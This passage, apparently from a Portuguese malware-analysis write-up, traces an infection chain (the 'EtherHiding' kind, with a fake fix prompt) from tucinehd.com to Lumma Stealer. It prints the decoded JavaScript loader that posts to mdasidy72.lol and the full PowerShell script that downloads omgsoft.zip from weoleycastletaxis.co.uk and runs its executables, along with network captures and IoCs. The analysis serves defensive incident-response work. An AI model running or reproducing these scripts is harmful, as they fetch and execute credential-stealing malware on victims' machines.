POST https://bsc-dataseed1.binance.org/ HTTP/1.1
Host: bsc-dataseed1.binance.org
Connection: keep-alive
Content-Length: 60
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
content-type: application/json
Accept: */*
Origin: https://tucinehd.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en

{"method":"eth_chainId","params":[],"id":43,"jsonrpc":"2.0"}


HTTP/1.1 200 OK
Date: Mon, 24 Jun 2024 16:40:15 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 600
X-Nr-Trace-Id: 00000000000000000000000000000000
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains
Content-Length: 41

{"jsonrpc":"2.0","id":43,"result":"0x38"}
```

**5- mesmo conteúdo do pacote 1**
```
OPTIONS https://bsc-dataseed1.binance.org/ HTTP/1.1
Host: bsc-dataseed1.binance.org
Connection: keep-alive
Cache-Control: max-age=0
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: https://tucinehd.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en


HTTP/1.1 204 No Content
Date: Mon, 24 Jun 2024 16:40:15 GMT
Connection: keep-alive
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 600
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains
```

**6- por fim é realizado outro POST contendo um endereço [Polygon](https://blockchair.com/polygon/address/0xdf20921ea432318dd5906132edbc0c20353f72d6) `0xdf20921ea432318dd5906132edbc0c20353f72d6`, que pode ser uma carteira de ativos digitais ou endereço de contato** 
```
POST https://bsc-dataseed1.binance.org/ HTTP/1.1
Host: bsc-dataseed1.binance.org
Connection: keep-alive
Content-Length: 137
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
content-type: application/json
Accept: */*
Origin: https://tucinehd.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en

{"method":"eth_call","params":[{"to":"0xdf20921ea432318dd5906132edbc0c20353f72d6","data":"0x6d4ce63c"},"latest"],"id":44,"jsonrpc":"2.0"}
```

A resposta do POST retorna um JSON com um campo "result" que contém um hexadecimal curioso:
```
HTTP/1.1 200 OK
Date: Mon, 24 Jun 2024 16:40:15 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 600
X-Nr-Trace-Id: 00000000000000000000000000000000
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains
Content-Length: 1767

{"jsonrpc":"2.0","id":44,"result":"0x000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000003144b47467a6557356a49475a31626d4e30615739754b436b6765776f674943416764484a354948734b49434167494341674943426a6232357a6443426f62334e30626d46745a53413949486470626d52766479357362324e6864476c766269356f62334e30626d46745a54734b49434167494341674943426a6232357a64434231633256795157646c626e51675053427559585a705a3246306233497564584e6c636b466e5a5735304f776f67494341674943416749474e76626e4e3049484a6c63334276626e4e6c4944306759586468615851675a6d56305932676f496d68306448427a4f6938766257526863326c6b655463794c6d78766243396c626d527762326c75644349734948734b49434167494341674943416749434167625756306147396b4f6941695545395456434973436941674943416749434167494341674947686c5957526c636e4d3649487367496b4e76626e526c626e517456486c775a53493649434a686348427361574e6864476c76626939716332397549697767496c567a5a5849745157646c626e51694f694231633256795157646c626e51676653774b49434167494341674943416749434167596d396b65546f67536c4e505469357a64484a70626d64705a6e6b6f657942335a574a7a6158526c4f69426f62334e30626d46745a5342394b516f674943416749434167494830704f776f67494341674943416749476c6d494368795a584e776232357a5a53357661796b6765776f674943416749434167494341674943426a6232357a6443426b59585268494430675958646861585167636d567a6347397563325575616e4e76626967704f776f67494341674943416749434167494342795a585231636d34675a4746305954734b494341674943416749434239494756736332556765776f67494341674943416749434167494342795a585231636d3467626e56736244734b494341674943416749434239436941674943423949474e6864474e6f4943686c636e4a7663696b6765776f67494341674943416749484a6c6448567962694275645778734f776f6749434167665170394b5367704f773d3d000000000000000000000000"}
```

O formato do hexadecimal acima é uma codificação ABI (Ethereum ABI encoding) usada pela [Ethereum](https://docs.ethers.org/v5/api/utils/abi/coder/) para empacotar parâmetros e retornos de funções.

Desse hexadecimal ABI é possível decodificar em Base64, sendo:
```
KGFzeW5jIGZ1bmN0aW9uKCkgewogICAgdHJ5IHsKICAgICAgICBjb25zdCBob3N0bmFtZSA9IHdpbmRvdy5sb2NhdGlvbi5ob3N0bmFtZTsKICAgICAgICBjb25zdCB1c2VyQWdlbnQgPSBuYXZpZ2F0b3IudXNlckFnZW50OwogICAgICAgIGNvbnN0IHJlc3BvbnNlID0gYXdhaXQgZmV0Y2goImh0dHBzOi8vbWRhc2lkeTcyLmxvbC9lbmRwb2ludCIsIHsKICAgICAgICAgICAgbWV0aG9kOiAiUE9TVCIsCiAgICAgICAgICAgIGhlYWRlcnM6IHsgIkNvbnRlbnQtVHlwZSI6ICJhcHBsaWNhdGlvbi9qc29uIiwgIlVzZXItQWdlbnQiOiB1c2VyQWdlbnQgfSwKICAgICAgICAgICAgYm9keTogSlNPTi5zdHJpbmdpZnkoeyB3ZWJzaXRlOiBob3N0bmFtZSB9KQogICAgICAgIH0pOwogICAgICAgIGlmIChyZXNwb25zZS5vaykgewogICAgICAgICAgICBjb25zdCBkYXRhID0gYXdhaXQgcmVzcG9uc2UuanNvbigpOwogICAgICAgICAgICByZXR1cm4gZGF0YTsKICAgICAgICB9IGVsc2UgewogICAgICAgICAgICByZXR1cm4gbnVsbDsKICAgICAgICB9CiAgICB9IGNhdGNoIChlcnJvcikgewogICAgICAgIHJldHVybiBudWxsOwogICAgfQp9KSgpOw==
```

Decodificando o base64 temos:
```
(async function() {
    try {
        const hostname = window.location.hostname;
        const userAgent = navigator.userAgent;
        const response = await fetch("https://mdasidy72.lol/endpoint", {
            method: "POST",
            headers: { "Content-Type": "application/json", "User-Agent": userAgent },
            body: JSON.stringify({ website: hostname })
        });
        if (response.ok) {
            const data = await response.json();
            return data;
        } else {
            return null;
        }
    } catch (error) {
        return null;
    }
})();
```

Essa é uma função [JavaScript IIFE](https://developer.mozilla.org/pt-BR/docs/Glossary/IIFE) (Immediately Invoked Function Expression) que é auto executada quando definida. Essa função envia informações como a página originalmente acessada e o navegador utilizado para o endereço https://mdasidy72.lol/endpoint, o qual deve responder em formato JSON.


#### mdasidy72.lol

Abaixo a informação enviada ao servidor a executar a função JavaScript IIFE:

```
POST https://mdasidy72.lol/endpoint HTTP/1.1
Host: mdasidy72.lol
Connection: keep-alive
Content-Length: 26
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Content-Type: application/json
Accept: */*
Origin: https://tucinehd.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en

{"website":"tucinehd.com"}
```


A resposta ao POST, é um payload grande com aproximadamente 89kb codificado em base64:

```
HTTP/1.1 200 OK
Date: Mon, 24 Jun 2024 16:40:16 GMT
Content-Type: application/json
Connection: keep-alive
access-control-allow-origin: *
access-control-allow-credentials: true
CF-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=mvsvXQIR%2FDQFOjEAWzmkjxpTmQEmL6pbEe%2B1RKx6IAQ6BVYAzcW%2BgUMCezsrqD7H6EPd7SjGbNi5ymc3i6H1ithVonUzSc4khc9cCyYYCoZYcOd8JDoF0pXrNOWEZbm4"}],"group":"cf-nel","max_age":604800}
NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 898e289d99af6c1a-DFW
alt-svc: h3=":443"; ma=86400
Content-Length: 89430

"ZnVuY3Rpb24gdXRmOFRvQmFzZTY0KHN0cikgew0KICAgIHJldHVybiBidG9hKHVuZXNjYXBlKGVuY29kZVVSSUNvbXBvbmVudChzdHIpKSk7DQp9DQoNCmZ1bmN0aW9uIGJhc2U2NFRvVXRmOChzdHIpIHsNCiAgICByZXR1cm4gZGVjb2RlVVJJQ29tcG9uZW50KG........Q29udGFpbmVyLmFwcGVuZENoaWxkKGlmcmFtZSk7DQogICAgZG9jdW1lbnQuYm9keS5hcHBlbmQocG9wdXBDb250YWluZXIpOw0KICAgIGRvY3VtZW50LmJvZHkuc3R5bGUub3ZlcmZsb3cgPSAnaGlkZGVuJzsNCn0NCg=="
```

O payload contém funções JavaScript e outro bloco codificado em base64. O base64 embutido é um código HTML que mostra para o usuário alguns passos a serem seguidos, com o pretexto de que falhou o carregamento da página web e ao seguir tais passos a página será exibida corretamente. Essa orientação maliciosa está disponível em diversas línguas, incluindo o português.

A seguir o trecho em português com as orientações mostradas ao usuário, note que é solicitado ao usuário abrir o PowerShell em modo administrador e copiar um conteúdo presente na variável copyButton.


Abaixo está a página que é apresentada ao usuário com as instruções.



Verificando a função copyButton, que é acionada quando clicado em "Copiar correções", temos o seguinte conteúdo que deve ser executado no PowerShell com trechos codificado em base64:



O comando acima após decodificado tem o seguinte conteúdo:



Este script executa as seguintes ações principais:
* Limpa o cache de DNS (ipconfig /flushdns).
* Faz uma requisição web para weoleycastletaxis.co.uk, fingindo ser um navegador Chrome.
* Baixa o conteúdo da página e o executa dinamicamente com IEX (Invoke-Expression).
* Limpa a tela (clear-host).
* Define o clipboard como um espaço em branco.

Como mencionado, a linha que contém "IEX $content" é a execução de uma requisição web, destinada ao domínio weoleycastletaxis.co.uk, o qual é apontado por alguns fabricantes como domínio potencialmente malicioso segundo o [Vírus Total](https://www.virustotal.com/gui/domain/weoleycastletaxis.co.uk/detection).



O link requisitado retorna um outro conjunto de comandos para execução, como pode ser visto a seguir.



Montando o comando de uma forma que facilite a leitura, temos:



```
$sb = { $srand = Get-Random -Min 3100 -Max 5100;
    Start-Sleep -Milli $srand;
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls -bor `
      [Net.SecurityProtocolType]::Tls11 -bor `
      [Net.SecurityProtocolType]::Tls12 -bor `
      [Net.SecurityProtocolType]::Ssl3;
    $minl = 8;
    $maxl = 15;
    $l = Get-Random -Min $minl -Max ($maxl + 1);
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $dnrand = -join (1..$l | % { Get-Random -InputObject $chars.ToCharArray() });
    $TDP = Join-Path $env:TEMP "$dnrand";
    New-Item -ItemType Directory -Path $TDP -ErrorAction SilentlyContinue;
    $uri = "https://weoleycastletaxis.co.uk/chao/baby/omgsoft.zip";
    $outFile = "$TDP\Helper.zip";
    $headers = @{ 'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0;Win64;x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36'};
    while ($true) {
        try {
            Invoke-WebRequest -Uri $uri -OutFile $outFile -Headers $headers -ErrorAction SilentlyContinue;
            if (Test-Path $outFile) { break } 
        }
        catch { Start-Sleep -Seconds 5 } 
    };
    Expand-Archive -Path "$TDP\Helper.zip" -DestinationPath "$TDP" -ErrorAction SilentlyContinue;
    Start-Sleep 2;
    $exeFiles = Get-ChildItem -Path $TDP -Filter *.exe;
    foreach ($exe in $exeFiles) {
        $procInfo = New-Object System.Diagnostics.ProcessStartInfo;
        $procInfo.FileName = $exe.FullName;
        $proc = New-Object System.Diagnostics.Process;
        $proc.StartInfo = $procInfo;
        $proc.Start() 
    } };
$sb.Invoke() | Out-Null
```

O código faz o download de um arquivo .zip e executa os arquivos .exe que estão compactados, o .exe então tenta se comunicar com um dos IoC's, como pode ser visto na [análise do any.run](https://app.any.run/tasks/3c995307-90ee-4457-8a97-38f57da0419a):



No presente incidente o domínio malicioso que foi estabelecida a conexão é o latesttributedowps.shop, conforme pode ser visto na listagem de tráfego que foi mapeada anteriormente.

Com base na análise de comportamento, o executável faz parte da família de malware Lumma Stealer, também conhecido como LummaC2 Stealer



![[images/cenario9-anyrun-omgsoft_exe-resumo2.png]]

![[images/cenario9-anyrun-omgsoft_exe-comportamento_text.png]]

![[images/cenario9-anyrun-omgsoft_exe-behavior.PNG]]

Relatório completo ANYRUN: https://any.run/report/e60d911f2ef120ed782449f1136c23ddf0c1c81f7479c5ce31ed6dcea6f6adf9/3c995307-90ee-4457-8a97-38f57da0419a)


